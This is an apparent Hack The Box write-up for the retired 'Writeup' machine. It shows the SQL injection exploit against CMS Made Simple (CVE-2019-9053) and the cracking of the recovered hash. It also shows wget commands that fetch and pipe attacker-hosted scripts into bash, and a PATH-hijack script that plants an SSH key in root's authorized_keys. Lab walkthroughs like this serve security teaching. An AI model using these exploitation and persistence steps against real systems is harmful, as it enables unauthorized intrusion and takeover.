


# Writeup

This is the write-up for the box Writeup that got retired at the 12th October 2019.
My IP address was 10.10.14.16 while I did this.

Let's put this in our hosts file:
```markdown
10.10.10.138    writeup.htb
```

## Enumeration

Starting with a Nmap scan:

```markdown
nmap -sC -sV -o nmap/writeup.nmap 10.10.10.138
```

```markdown
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.4p1 Debian 10+deb9u6 (protocol 2.0)
| ssh-hostkey:
|   2048 dd:53:10:70:0b:d0:47:0a:e2:7e:4a:b6:42:98:23:c7 (RSA)
|   256 37:2e:14:68:ae:b9:c2:34:2b:6e:d9:92:bc:bf:bd:28 (ECDSA)
|_  256 93:ea:a8:40:42:c1:a8:33:85:b3:56:00:62:1c:a0:ab (ED25519)
80/tcp open  http    Apache httpd 2.4.25 ((Debian))
| http-robots.txt: 1 disallowed entry
|_/writeup/
|_http-title: Nothing here yet.
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Checking HTTP (Port 80)

On the web page there is text with some ASCII art that may give us some hints:



- Potential DoS protection against 40x errors
- Potential user: jkr@writeup.htb

As in the results of the Nmap scan stated, there is a _robots.txt_ file that tells to disallow bots for the _/writeup/_ folder.
When browsing to that path there are writeups for HackTheBox machines:



The links are working with PHP in the background.
In the source code of the page, we see it was made with an Open-Source CMS called **CMS Made Simple** which source code can be found in the [Subversion Repository](http://svn.cmsmadesimple.org/svn/cmsmadesimple/trunk/).
Lets try out if the files in the repository are accessible through the web page.

The path _/writeup/admin/_ is accessible but wants credentials to log in.
In the file _/writeup/doc/CHANGELOG.txt_ the version number gets disclosed and it is **Version 2.2.9.1**.

So lets look for vulnerabilities for this software:
```markdown
searchsploit cms made simple
```

The only exploit that could work, is called **CMS Made Simple < 2.2.10 - SQL Injection** as the other exploits are for older versions.
This vulnerability has the CVE number **CVE-2019-9053**.

Running the exploit:
```markdown
python 46635.py -u http://10.10.10.138/writeup/
```

This will execute the SQL Injection vulnerability and the results will be an username and a password:
- [+] Salt for password found: 5a599ef579066807
- [+] Username found: jkr
- [+] Email found: jkr@writeup.htb
- [+] Password found: 62def4866937f08cc13bab43bb14e6f7

The hash of the password is 32 characters long and probably a MD5-hash that has to be cracked in combination with the salt.

### Cracking the hash

The exploit has a the parameter `--crack` to crack the password:
```markdown
python 46635.py -u http://10.10.10.138/writeup/ --crack -w /usr/share/wordlists/rockyou.txt
```

But lets do this with **Hashcat** as such a function is rarely in exploit scripts.
```markdown
hashcat -m 20 cmsmadesimple.hash /usr/share/wordlists/rockyou.txt
```

After a while the hash gets cracked and the password is:
> raykayjay9

Trying the username _jkr_ and this password on SSH works.
```markdown
ssh jkr@10.10.10.138
```

## Privilege Escalation

Now logged in as the user _jkr_ we start any Linux Enumeration script to look for an attack surface on the box.
```markdown
wget http//10.10.14.16/LinEnum.sh | bash
```

When analyzing the output, there are two interesting things:
- There is MySQL running on the box
  - Unfortunately the user _jkr_ has no permissions
- The user is in the group _staff_ which is not a default group

In the [Debian wiki for System Groups](https://wiki.debian.org/SystemGroups) it explains, that users in the _staff_ group are allowed to make modifications to the system _(/usr/local)_ without needing root privileges. This only works with relative paths, so lets look for processes with **pspy**:
```markdown
wget http.//10.10.14.16/pspy

chmod +x pspy

./pspy
```

This monitors all processes in a live view. As soon as we log in, the command _run-parts_ is run without the full path. This binary is in _/usr/bin_ which comes after _/usr/local/bin_:
```markdown
echo $PATH

# Output
/usr/local/bin:/usr/bin:/bin:/usr/local/games:/usr/games
```

When creating a file with that name in _/usr/local/bin_ we can execute any code we want.
So we create a file called _run-parts_ in this directory with the commands to paste a SSH key into the _~/.ssh_ directory to log in as root. The public key was created on my local machine with `ssh-keygen`.
```markdown
#!/bin/bash

touch /tmp/test
mkdir ~/.ssh
echo 'ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQCwJAhKiZwIBTRP5KvbpKPWO3Vz6AZKNamcP8dn20HNzIltYMp3UVJlYKuMzJ4uO+LvblEHk+xo8C5TnQaPjLC4DPajF2Av83beyVFT8JOl1RiU8SsjCaVzF3N4WwpEpQ0O+qQMj25KjbpYh10UwKCpe+eD6txdamfHsZ0hYbVwsE/cS43O16Bv47NWgUz2MxVqO6IbvM0FerHEs5GnXgMGKQG3MuBkyfYwFeU1GT1oDUWcOthbRt0RH71RfPgGzCsgAM1K/V6Phx9/pvAgRiYunipmYxVevxH2QKnrXudzP3JmPlgua6qlvQX9pfXKCcPBxnZ0adeH6aCANVflS1/qC8Jx97rtdhjSGdwNrgNMBh5kPxty4o1gFf2fl7e9w31EdWUN0/kydXFgQUIEEbCiucDRfovM4KD+yv6mexws/EfKdZUs+5BKmG3JkDNE9HOe1Hlhp6fqOFg5HSWl933+sdtqGPRqXpgOXpZWrWmwuxqjt6IS1FJ34YuJ6Ium6Hk= root@kali' >> ~/.ssh/authorized_keys
chmod 600 ~/.ssh/authorized_keys
```

The file needs permission to be executed with `chmod +x run-parts` and after login in with _jkr_ our _run-parts_ gets executed.

Now with the private SSH key, it is possible to log in as root!
```markdown
ssh -i privkey root@10.10.10.138
```
